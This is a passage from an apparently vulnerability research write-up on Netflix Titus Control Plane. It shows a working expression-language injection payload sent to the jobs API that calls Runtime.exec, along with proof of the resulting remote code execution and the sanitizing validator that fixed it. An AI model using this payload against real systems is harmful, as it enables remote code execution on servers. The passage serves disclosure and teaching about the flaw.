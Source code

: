 
So, the final payload we end up sending to `localhost:7001/api/v3/jobs` is:

~~~json
{
        //...
        "container": {
            //...
            "softConstraints":{"constraints": {"#{\"\".class.class.methods[0].invoke(null, \"java.lang.\".concat(\"\".class.methods[59].invoke(\"r\")).concat(\"untime\")).runtime.exec(\"touch /tmp/pwned\")}":""}}
        },
        //...
}

~~~

What a monster! I don't know if there's an easier way to do it, but let's see if it worked, because Titus still returns a 500 error. We just open a bash in the `gateway` container with `docker exec` and... (drumroll, please):

~~~
root@6ae0991ee91a:/opt/titus-server-gateway# ls /tmp/
hsperfdata_root  pwned
~~~

We got our RCE!! \o/

## Step 4.2. Mitigation

Now, downloading the fixed database of Titus Control Plane and running the query again returns 0 results as expected. To see how the issues were fixed, we can run a Quick Evaluation on our sources and see what changed. Surprisingly, now we only obtain one source, in a new class called `AbstractConstraintValidator`:

~~~java
public abstract class AbstractConstraintValidator<A extends Annotation, T> implements ConstraintValidator<A, T> {

    // ...
    private static String sanitizeMessage(String message) {
        return message.replaceAll("([}{$#])", "\\\\$1");
    }

    @Override
    final public boolean isValid(T type, ConstraintValidatorContext context) {
        return this.isValid(type, message -> {
            String sanitizedMessage = sanitizeMessage(message);
            return context.buildConstraintViolationWithTemplate(sanitizedMessage);
        });
    }

    // ...
    abstract protected boolean isValid(T type, Function<String, ConstraintValidatorContext.ConstraintViolationBuilder> constraintViolationBuilderFunction);

}
~~~
